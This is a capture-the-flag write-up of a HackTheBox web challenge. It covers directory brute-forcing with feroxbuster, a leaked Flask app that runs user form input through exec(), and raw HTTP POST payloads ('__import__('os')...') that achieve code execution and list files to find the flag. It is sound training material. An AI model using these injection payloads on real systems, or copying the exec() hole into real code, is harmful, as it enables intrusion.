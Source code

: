 # baby interdimensional internet

Completed: Yes
Platform: HackTheBox

Check the site and see again rick and morty theme. It is a calculator. Let's brute force the dirs:

```bash
$ feroxbuster -u http://188.166.173.208:30029/ -w ~/tools/SecLists/Discovery/Web-Content/big.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://188.166.173.208:30029/
 🚀  Threads               │ 50
 📖  Wordlist              │ /home/kali/tools/SecLists/Discovery/Web-Content/big.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200       42l      123w     1171c http://188.166.173.208:30029/debug
[####################] - 1m     20475/20475   0s      found:1       errors:5894   
[####################] - 1m     20475/20475   299/s   http://188.166.173.208:30029/
```

Go to debug:

```python
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def federation(*args, **kwargs):
		ingredient = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))

		calc(recipe)

		if garage.get(ingredient, ''):
			return render_template('index.html', calculations=garage[ingredient])

		return func(*args, **kwargs)
	return federation

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=1337)
```

After light code review, you'll understand that the application just playing around with the random and math operations. But for the HTTP POST method is different. It takes the data from the body and works with it in `exec` function, which we can exploit to execute arbitrary code, but we need to see the flag. And that's why we have an if statement after calc function, which just checks the element in a dict and puts it in the template.

A simple http post request with needed body data:

```bash
POST / HTTP/1.1
Host: 188.166.173.208:30029
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 55

ingredient=hello&measurements=__import__('os').getcwd()
```

Returns to us these:

```bash
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'>/app</h1>
```

That just proves the  code execution. Let's use simple functions of os module.

```bash
POST / HTTP/1.1
Host: 188.166.173.208:30029
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

ingredient=hello&measurements=__import__('os').listdir('.')
```

```bash
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'>[&#39;app.py&#39;, &#39;templates&#39;, &#39;flag&#39;]</h1>
```

Okay, now it is clear. Just execute `open('flag', 'r').read()`.